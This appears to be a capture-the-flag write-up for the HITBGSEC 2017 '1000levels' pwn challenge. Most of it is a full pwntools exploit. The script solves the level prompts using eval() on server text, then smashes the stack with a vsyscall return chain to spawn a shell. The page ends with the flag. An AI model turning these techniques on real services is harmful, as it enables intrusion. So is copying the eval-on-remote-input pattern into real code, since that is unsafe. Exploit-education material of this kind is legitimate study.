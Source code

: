 ```yaml
---
title: "HITBGSEC CTF 2017 - 1000levels (Pwn)"
header:
  overlay_image: /assets/images/hitbgsec2017/1000levels/header.jpg
  overlay_filter: 0.5
  caption: "Photo credits: Rebecca Li on Unsplash"
tags:
  - hitbgsec2017
  - writeup
  - pwn
---
```


Uninitialised variable usage allows for reliable exploitation of a classic stack
overflow on a NX and PIE enabled binary.

## Challenge Description

#### Points

200

#### Description

```
It's more diffcult.

nc 47.74.147.103 20001
```

#### Files

- [498a3f10-8976-4733-8bdb-30d6f9d9fdad.gz](https://hitb.xctf.org.cn/media/task/498a3f10-8976-4733-8bdb-30d6f9d9fdad.gz)

## Solution


```shell
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
gdb-peda$
```

![1]({{ site.url }}{{ site.baseurl }}/assets/images/32c3/teufel/1.png){: .align-center}

Here's the final exploit script:

```python
from pwn import *
import sys

#context.log_level = "debug"

system_offset = 0x0000000000045390
ret_address = 0xffffffffff600400
target_offset = 0x4526a

difference = target_offset - system_offset

def answer(eqn):
    parse = eqn[9:eqn.find("=")]
    soln = eval(parse)
    return soln

def main():
    #p = process("./1000levels")
    p = remote("47.74.147.103", 20001)

    p.sendline("2")
    p.clean()
    p.sendline("1")
    p.clean()
    p.sendline("0")
    p.clean()
    p.sendline(str(difference))

    for i in range(999):
        p.recvline_contains("Level")
        eqn = p.clean()

        soln = answer(eqn)
        p.send(str(soln)+"\x00")
        if i % 50 == 0:
            log.info("Please wait... %d/1000" % i)

    pay = str(soln) + "\x00"
    pay = pay.ljust(56, "B")
    pay += p64(ret_address)*3
    log.info("Injected our vsyscall ROPs")

    p.send(pay)
    p.clean()

    p.success("Shell spawned! Enjoy!")
    p.interactive()

if __name__ == "__main__":
    main()
```

Running the exploit:

[![asciicast](https://asciinema.org/a/hkB2nBw48CADpbHaeuvkZF9zO.png)](https://asciinema.org/a/hkB2nBw48CADpbHaeuvkZF9zO)

Flag: **HITB{d989d44665a5a58565e09e7442606506}**
